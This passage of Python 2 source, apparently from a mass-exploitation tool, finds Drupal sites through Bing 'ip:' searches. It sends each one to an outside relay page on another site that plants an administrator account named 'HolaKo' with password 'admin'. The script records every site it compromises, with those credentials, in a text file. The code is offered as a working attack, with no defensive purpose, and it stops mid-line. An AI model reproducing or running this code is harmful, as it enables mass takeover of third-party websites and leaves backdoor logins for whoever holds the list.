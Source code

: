         for url in findurl:
            try:

                urlpa = urlparse(url)
                site = urlpa.netloc

                print "[+] Testing At " + site
                resp = urllib2.urlopen(
                    'http://crig-alda.ro/wp-admin/css/index2.php?url=' + site + '&submit=submit')
                read = resp.read()
                if "User : HolaKo" in read:
                    print "Exploit found =>" + site

                    print "user:HolaKo\npass:admin"
                    a = open('up.txt', 'a')
                    a.write(site + '\n')
                    a.write("user:" + user + "\npass:" + pwd + "\n")
                else:
                    print "[-] Expl Not Found :( "

            except Exception as ex:
                print ex
                sys.exit(0)

        # Drupal Server ExtraCtor


def getdrupal():
    ip = raw_input('Enter The Ip :  ')
    page = 1
    sites = list()
    while page <= 50:

        url = "http://www.bing.com/search?q=ip%3A" + ip + \
            "+node&go=Valider&qs=ds&form=QBRE&first=" + str(page)
        req = urllib2.Request(url)
        opreq = urllib2.urlopen(req).read()
        findurl = re.findall(
            '<div class="b_title"><h2><a href="(.*?)" h=', opreq)
        page += 1

        for url in findurl:
            split = urlparse(url)
            site = split.netloc
            if site not in sites:
                print site
                sites.append(site)

        # Drupal Mass List Exploiter


def drupallist():
    listop = raw_input("Enter The list Txt ~# ")
    fileopen = open(listop, 'r')
    content = fileopen.readlines()
    for i in content:
        url = i.strip()
        try:
            openurl = urllib2.urlopen(
                'http://crig-alda.ro/wp-admin/css/index2.php?url=' + url + '&submit=submit')
            readcontent = openurl.read()
            if "Success" in readcontent:
                print "[+]Success =>" + url
                print "[-]username:HolaKo\n[-]password:admin"
                save = open('drupal.txt', 'a')
                save.write(